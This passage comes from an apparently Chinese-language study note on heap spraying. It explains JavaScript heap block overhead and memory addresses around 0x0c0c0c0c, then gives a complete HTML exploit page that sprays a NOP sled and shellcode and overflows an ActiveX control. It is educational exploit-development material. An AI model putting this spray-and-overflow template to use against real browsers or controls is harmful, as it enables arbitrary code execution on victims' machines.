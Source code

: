 用浏览器打开，然后OD附加，使用FindAddr的Custom-Search去根据标识符`81828281`寻找内存块，记录一下内存块的起始地址。然后重启电脑，再次执行上述操作，观察重启前后内存块起始地址的变化：

重启前：

![Bildschirmfoto 2018-11-01 um 6.57.59 PM.png]({{ site.url }}/images/0day/734A3D0C4DF67D6F93499D784F19D527.png)

重启后：

![Bildschirmfoto 2018-11-01 um 6.58.16 PM.png]({{ site.url }}/images/0day/8BF5A0EA53D24C9C534056F7BF855C88.png)

可以发现起始地址均小于`0x0c0c0c0c`。另外，其地址范围是覆盖了`0x0c0c0c0c`的：

![Bildschirmfoto 2018-11-01 um 7.00.41 PM.png]({{ site.url }}/images/0day/67BA2DB3DC11B66AC84D9853F89754CC.png)

代码中为什么要对nops做`nops.substring(0, 0x100000 / 2 - 32 / 2 - 4 / 2 - 2 / 2 - 2);`的操作呢？如果只是为了减去`unescape("%u8281%u8182")`的长度，不是只减去`4 / 2`就好了吗？为什么使用1MB的内存片呢？参考第六章末尾部分，我们有以下解释：

Javascript在申请内存时会为每个块补充一些额外信息（有点类似于堆溢出时考虑了块首），具体如下：

||大小|说明|
|:-:|:-:|:-:|
|malloc header|32 bytes|堆块信息|
|string length|4 bytes|字符串长度|
|terminator|2 bytes|字符串结束符，是两个字节的NULL|

同时，1MB的内存片可以使得相对于payload来说slides足够多，从而使得命中slides的概率足够大，换言之，exploit足够稳定。

综上，我们已经对堆喷的可行性做了充分的理论论证。下面我们做实验。依然是攻击ActiveX控件，控件与本章第一节使用的完全相同，这里就不附源码了。使用的exploit页面源码如下：

```html
<html>  
<body>  
<script>
	var nops = unescape("%u9090%u9090");
	shellcode  = "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91";
	shellcode += "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332";
	shellcode += "\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c";
	shellcode += "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505";
	shellcode += "\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b";
	shellcode += "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06";
	shellcode += "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c";
	shellcode += "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd";
	shellcode += "\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33";
	shellcode += "\u6853\u6a2d\u626f\u6768\u6f6f\u8b64\u53c4\u5050";
	shellcode += "\uff53\ufc57\uff53\uf857";
	while(nops.length < 0x100000)
		nops += nops;
	nops = nops.substring(0, 0x100000 / 2 - 32 / 2 - 4 / 2 - 2 / 2 - shellcode.length);
	nops += shellcode;
	var memory = new Array();
	for(var i = 0; i < 200; i++)
		memory[i] += nops;
</script>
<object classid="clsid:39F64D5B-74E8-482F-95F4-918E54B1B2C8" id="test"></object>  
<script>
	var s = "\u9090";
	while(s.length < 54)
		s += "\u9090";
	s += "\u0c0c\u0c0c";
	test.test(s);  
</script>  
</body>  
</html>
```